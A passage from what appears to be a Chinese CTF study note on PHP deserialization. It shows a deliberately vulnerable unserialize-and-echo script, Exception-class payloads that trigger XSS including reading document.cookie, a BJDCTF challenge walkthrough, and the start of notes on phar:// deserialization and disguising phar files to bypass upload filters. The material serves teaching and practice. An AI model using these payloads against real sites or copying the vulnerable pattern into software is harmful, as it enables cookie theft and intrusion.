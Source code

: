 - Exception
适用于php5、7版本
开启报错的情况下

test.php
```php
<?php
$a=$_GET['a'];
echo unserialize($a);
?>
```

新建use2.php构造payload
```php
<?php
$a = new Exception("<script>alert(1)</script>");
echo urlencode(serialize($a));
?>

```
将use2.php序列化的值传入test.php的a参数造成xss弹窗

<br/>

以[[BJDCTF 2nd]xss之光](https://buuoj.cn/challenges#[BJDCTF%202nd]xss%E4%B9%8B%E5%85%89)为例，利用 __toString原生类
通过.git泄露获得源码
```php
<?php
$a = $_GET['yds_is_so_beautiful'];
echo unserialize($a);
```
没有可以直接利用的类，但是有echo，可以通过PHP原生类调用__toString方法执行XSS弹出flag
payload
```php
<?php
$a = new Exception("<script>alert(document.cookie)</script>");
echo urlencode(serialize($a));
?>

```
<br/>
<br/>

## phar的利用
PHAR（"php归档"）是PHP里类似于JAR的一种打包文件，可以将多个文件归档到一个文件，方便应用程序的打包和组件化，在PHP 5.3版本及其更高版本默认开启。在文件函数可控的情况下,利用phar://伪协议，可以在无unserialize函数的情况下进行反序列化操作

### phar文件结构
phar由4部分组成（生成phar文件需要把php.ini的phar.readonly改成off）
1. stub
识别phar拓展的标识,格式为xxx<?php xxx; __HALT_COMPILER();?>，前面内容不限可用于伪造其他格式绕过文件上传，但必须以__HALT_COMPILER();?>来结尾，否则无法识别这个文件为phar文件
